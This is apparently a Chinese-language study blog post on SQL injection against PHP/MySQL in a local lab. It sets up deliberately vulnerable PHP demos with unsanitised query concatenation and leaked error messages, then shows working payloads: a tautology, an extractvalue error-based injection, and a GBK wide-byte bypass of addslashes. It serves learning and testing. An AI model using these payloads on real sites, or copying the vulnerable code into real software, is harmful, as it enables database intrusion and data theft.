



有点好久不见，之前在入门之处学的第一个就是这个漏洞，不过那个时候学的是漏洞，没有涉及到专门分语言的。

<!--more-->

  

# SQL Injection 原理

  

>将恶意SQL语句注入到Web表单的输入页面中，该恶意SQL语句会导致原有的SQL语句发生改变，从而达到攻击者的目的去让它去执行一些危险的数据操作。

  

简单说，所有涉及到的数据库的 **增删改查** 操作的功能点都有可能存在SQL Injection。

  

# Categories

  



  

之前单独学习的时候，只学到报错注入、盲注、堆叠注入，就觉得OMG怎么这么难，堪比现在的我面对数电实验之4位并行加法器。

  

<hr>

<hr>

  
  
  
  

# init()

  

在开始之前，先搞好配置吧。

  

phptorm + XAMPP

  

有phpstorm最好，没有的请有phpstudy或者XAMPP之类工具（有phpstorm也要有当然如果你自己本地有php就不需要了）。

  

参考一下：

  

- [phpstorm运行本地php文件](https://cloud.tencent.com/developer/article/1739540)

- [php连接MySQL](https://www.runoob.com/php/php-mysql-insert.html)

  

- [MySQL Workbench基本使用](https://c.biancheng.net/view/2625.html)（如果有安装MySQL的话……没有也没事，XAMPP或者phpstudy自带）

  

然后写了一个测试php：

```php

<?php

$servername = "localhost";

$username = "root";

$password = "Flask08";

$dbname = "demo";

  

// 创建链接

$conn = mysqli_connect($servername, $username, $password, $dbname,3306);

// 检查链接

if (!$conn) {

    die("连接失败: " . mysqli_connect_error());

}

  

$sql = "INSERT INTO user (username, email, password,  id)

VALUES ('Lisa', 'lias@example.com', 'fdaggsd' , 3);";

  
  

if ($conn->query($sql) === TRUE) {

    echo "新记录插入成功";

} else {

    echo "Error: " . $sql . "<br>" . mysqli_error($conn);

}

  

mysqli_close($conn);

?>

  

```

测试结果：



  



  

(尝试使用muti_query不知道为什么出错了，感觉可能又是php版本不兼容，我的是5.6)

  
  

-----

  

[尝试用SQL语句在Workbench中删除记录时遇到的一个问题以及解决方法](https://stackoverflow.com/questions/11448068/mysql-error-code-1175-during-update-in-mysql-workbench)

  

<hr>

<hr>

  

## 报错注入

  

### mysqli_error()

  

<table><tr><td bgcolor=yellow>条件:</td></tr></table>

  

- 对传入的参数 **未做过滤** 直接拼接到SQL语句中执行

- 直接使用`mysqli_error()`进行报错处理且没有对报错信息进行良好的处理

  
  

测试demo

  

```php

<?php

if(isset($_GET['id'])){

    header("Content-type: text/heml;charset=utf-8");

    $servername = "localhost";

    $username = "root";

    $password = "F01";

    $dbname = "demo";

  

    // 创建链接

    $conn = mysqli_connect($servername, $username, $password, $dbname,3306);

    // 检查链接

    if (!$conn) {

        die("连接失败: " . mysqli_connect_error());

    }

    $id=$_GET['id'];

    $sql="SELECT * FROM user WHERE id='$id' LIMIT 0,1";//惊为天人的是，这里我把id=打错成了id-，但是依旧有效运行

    $result=mysqli_query($conn,$sql);

    $row=@mysqli_fetch_array($result);

  

    if($row){

        echo "Your name is: ".$row['username'];

        echo "<br>";

        echo "your psw: ".$row['password'];

    }

    else{

        echo mysqli_error($conn);//这里也有一个mysqli_errno()函数，当时可能没注意直接回车……但依旧有效……

    }

  

    mysqli_close($conn);

}

  

?>

```

  

进行正常测试：

  

`http://localhost:63342/demo/error.php?id=1`

  
  

返回：

  

`Your name is: John<br>your psw: daidgiaegigak`

`Your name is: Amy<br>your psw: sfggregea`

  

如果进行错误测试：

  

`http://localhost:63342/demo/error.php?id=1'`

  
  

报错：

  

```txt

<br />

<b>Fatal error</b>:  Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1 in C:\Users\fk\PhpstormProjects\demo\error.php:17

  

Stack trace:

#0 C:\Users\fk\PhpstormProjects\demo\error.php(17): mysqli_query(Object(mysqli), 'SELECT * FROM u...')//出现表名

  

#1 {main}

  thrown in <b>C:\Users\fk\PhpstormProjects\demo\error.php</b> on line <b>17</b><br />

```

  

<br>

<br>

  

其实看第一段的`near ''1'' LIMIT 0,1'`就行，一个报错注入就可以出现雏形。

  

`id=1' or 1=1--+`就正常输出，回头去看源码

  
  

```php

//...

$id=$_GET['id'];

//...

```

  
  

`id=1'`相当于`$id=$_GET['1'']`。

`id=1' or 1=2 --+`相当于`'1' or 1=2--+'`即`$_GET['1' or 1=2]`

  

<br>

<br>

  

一点简单的测试之后，

  

<br>

<br>

  

在按部就班的测试之后就可以构造payload：

`http://demo/error.php?id=1%27%20and%20(select%20extractvalue(%22anything%22,concat(%27~%27,(user()))))%20--%20qwe`

  

就可以通过报错回显得到：`XPATH syntax error: '~root@localhost'`

  
  

<hr>

  

一个番外，当我不小心把那个单引号打成中文单引号，就无事发生——没有报错，依旧正常输出。

具体原因，tbc。

  

<hr>

<hr>

  

## 宽字节注入

  

mysql的gbk编码是多字节编码，两个字节代表一个汉字，`%df` + `\`会组成一个汉字，所以利用这个特性进行`'`的逃逸，构成sql注入。

  

### addslashes()

  

该函数对预定义的字符进行 前加\ 操作

  

**预定义的字符**：

  

- 单引号

- 双引号

- 反斜杠

- NULL

  

<hr>

  

进行测试

  

```php

//testdemo

<?php

if(isset($_GET['id'])){

    header("Content-type: text/heml;charset=utf-8");

    $servername = "localhost";

    $username = "root";

    $password = "Flaskon0801";

    $dbname = "demo";

  

    // 创建链接

    $conn = mysqli_connect($servername, $username, $password, $dbname,3306);

    mysqli_query($conn,"SET NAMES 'gbk'");//设置MySQL字符编码为gbk

    // 检查链接

    if (!$conn) {

        die("连接失败: " . mysqli_connect_error());

    }

    $id=addslashes($_GET['id']);

    //$id=$_GET['id'];

    $sql="SELECT * FROM user WHERE id='$id' LIMIT 0,1";

    echo "sql thing: " .$sql."<br><br>";

    $result=mysqli_query($conn,$sql);

    $row=@mysqli_fetch_array($result);

  

    if($row){

        echo "Your name is: ".$row['username'];

        echo "<br>";

        echo "your psw: ".$row['password'];

    }

    else{

        echo mysqli_error($conn);

    }

  

    mysqli_close($conn);

}

  

?>

```

  

**进行测试**

  

1.`id=%27%27`

报错：

`sql thing: SELECT * FROM user WHERE id='\'\'' LIMIT 0,1<br><br>`

  

2.`id=1%27%df%20or%201=2--+`

  

`sql thing: SELECT * FROM user WHERE id='1\'� or 1=2-- ' LIMIT 0,1<br><br>Your name is: John<br>your psw: daidgiaegigak`

  

3.`id=1%df%27%20or%201=2--+`

  

`sql thing: SELECT * FROM user WHERE id='1�\' or 1=2-- ' LIMIT 0,1<br><br>Your name is: John<br>your psw: daidgiaegigak`

  

第三条就是我们所说的组成汉字，

  

`�\`变成一个汉字（这里解析不出来），所以 id = '1' or 1=2,单引号逃逸成功，也就成功执行了sql注入。

  

还可以换其他sql注入语句，这里只是简单测试就不写了。

  

值得研究的是，第二条，也是打错了的，但是注入依旧成功了——是注释的作用还是反斜杠的注释作用？

  

<hr>

<hr>

  

## 盲注

  
  

<hr>

  

[SQL注入](https://ctf-wiki.org/web/sqli/)